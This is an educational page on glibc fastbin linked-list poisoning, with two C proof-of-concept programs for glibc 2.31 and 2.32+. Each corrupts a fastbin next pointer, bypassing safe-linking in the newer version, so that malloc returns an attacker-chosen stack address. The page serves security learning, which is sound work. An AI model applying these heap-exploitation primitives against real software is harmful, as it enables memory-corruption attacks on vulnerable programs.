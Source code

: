 <details>
<summary><strong>Description</strong></summary>
<p>

this is going to be extremely similar to the tcache linked list process, and with the same end result. Due to a few differences, this isn't going to be as practical and useful as the tcache linked list technique...

however, it used to be a lot more useful...

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/fastbin/fastbin_linked/readme.md

</p>
</details>

### For `2.32+` versions

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk[8], *target, x[0x30], *reallocate_chunk;

    for(int i = 0; i < 8; i++) chunk[i] = malloc(0x78); // request size must be in fastbin range in order to work

    for(int i = 0; i < 7; i++) free(chunk[i]); // fill the 0x80 tcache
    free(chunk[7]); // chunk[7] goes to 0x80 fastbin

     // target must be aligned 0x10 (explain later)
    for(int i = 0x10; i < 0x20; i++) {
        if((((long)&x[i]) & 0xF) == 0) {
            target = &x[i];
            break;
        }
    }

    target[-1] = 0x81; // set up fake fastbin chunk size fit with the 0x80 fastbin (this is needed to bypass mitigation)
    target[0] = 0 ^ (((long)target - 0x10) >> 12); // set up fake fastbin chunk's next ptr is NULL to prevent error while dumping (can bypass this by other ways)

    printf("target: %p\n", target);

    /*VULNERABILITY*/
    chunk[7][0] = ((long)target - 0x10) ^ (((long)chunk[7] - 0x10) >> 12); // set up next ptr of 0x80 fastbin head point to target
    /*VULNERABILITY*/
    
    for(int i = 0; i < 7; i++) malloc(0x78); // empty the tcache
    malloc(0x78); // allocate a chunk from 0x80 fastbin, trigger fastbin dumping, now target is in 0x80 tcache
    // [tcache 0x80]: target
    // that's why target must be alligned 0x10

    reallocate_chunk = malloc(0x78);

    printf("reallocate chunk: %p\n", reallocate_chunk);
}
```

</p>
</details>

<details>
<summary><strong>Comment</strong></summary>
<p>

the fastbin itself doesnt have address aligned `0x10` check, but we need to prepare fake chunk size and aligned address to prevent error when the fastbin tcache dumping occur...

</p>
</details>

### For `2.31` version

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.31`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk[8], *target, x[0x30], *reallocate_chunk;

    for(int i = 0; i < 8; i++) chunk[i] = malloc(0x78); // request size must be in fastbin range in order to work

    for(int i = 0; i < 7; i++) free(chunk[i]); // fill the 0x80 tcache
    free(chunk[7]); // chunk[7] goes to 0x80 fastbin

    // target doesnt need to aligned 0x10 in 2.31
    target = (char *)(&x[0x20]) - 2;

    target[-1] = 0x81; // set up fake fastbin chunk size fit with the 0x80 fastbin (this is needed to bypass mitigation)
    target[0] = 0; // set up fake fastbin chunk's next ptr is NULL to prevent error while dumping (can bypass this by other ways)

    printf("target: %p\n", target);

    /*VULNERABILITY*/
    chunk[7][0] = ((long)target - 0x10); // set up next ptr of 0x80 fastbin head point to target
                                         // no mangled pointer in glibc 2.31
    /*VULNERABILITY*/
    
    for(int i = 0; i < 7; i++) malloc(0x78); // empty the tcache
    malloc(0x78); // allocate a chunk from 0x80 fastbin, trigger fastbin dumping, now target is in 0x80 tcache
    // [tcache 0x80]: target

    reallocate_chunk = malloc(0x78);

    printf("reallocate chunk: %p\n", reallocate_chunk);
}
```

</p>
</details>